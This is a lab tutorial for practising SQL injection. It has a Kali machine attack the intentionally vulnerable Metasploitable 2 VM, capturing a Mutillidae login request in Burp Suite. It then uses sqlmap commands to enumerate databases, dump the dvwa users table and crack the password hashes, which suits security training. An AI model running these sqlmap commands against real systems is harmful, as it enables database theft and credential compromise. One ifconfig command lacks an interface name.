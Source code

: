 = SQL Injection with SQLmap
Author: Jake Kirsten

== Intro
//please more detail.
We are going to be attacking a database with an SQL injection to retrieve passwords, and root access.

== Prerequisites

* Kali
* Metasploitable 2

== Setup

. turn on metasploitable and kali linux
. set the IP address on metasploit to 192.168.2.50/24
+
```
sudo ifconfig eth0 192.168.2.50 netmask 255.255.255.0
```
. Set the IP address on Kali Linux to 192.168.2.10/24 in settings or through the command line as shown:
+
```
sudo ifconfig 192.168.2.10 netmask 255.255.255.0
```
// combine the screenshots and not spread them acorss like 100 pages/.
+
image::KaliIP.png[]
. Verify metasploitable 2 is running by going to 192.168.2.50 with firefox in Kali:
+
image::Metasploit2.png[]
. Head over to the Mutillidae Login Page
+
image::MultLogin.png[]
. Minimize Firefox, but stay on the login page
. Open Burp Suite, and head over to the Proxy Tab and verify your settings match these:
+
image::BurpSettings.png[]

== Instructions
. Open the HTTP tab in Burp suite and minimize
. Your firefox should also still be minimized, open it up and set the proxy to port 8080 in settings as shown:
+
image::Proxy.png[]
. Attempt a login with any username and password
+
Nothing will happen in Firefox, but there will be a post captured in Burpsuite as shown:
Save the RAW data to your root folder in .txt format
+
image::BurpPost.png[]
+
. Once this is saved we may now start our SQL injection.
. Open a terminal and type in:
+
```
sqlmap -r sqlinj.txt -p username
```
We are doing this to find out what type of Database the web application is using.
. We find out that it is running MySQL, which gives us information on what to add to our commands in SQLmap
+
image::backend.png[]
. Now that we have more information add it to the command with this command:
```
sqlmap -r sqlinj.txt -p username --dbms mysql --dbs
```
This shows us the databases on their server
. next step will be choosing a database to exploit, we will be choosing dvwa. Use the command below:
```
sqlmap -r sqlinj.txt -p username --dbms mysql -D dvwa --tables
```
The result from the above command will output the tables in that database
image::tables.png[]
. next step will be entering the users table
```
sqlmap -r sqlinj.txt -p username --dbms mysql -D dvwa -T users --dump
```
. you will come to this screenshot:
image::hashes.png[]
Of course we want to store them into a temp file to break the hash! Hit Y on both promps, attack them with a dictionary based attack! 

This should be the result:
+
image::hashedpasswords.png[]
// last image doesnt pop up.
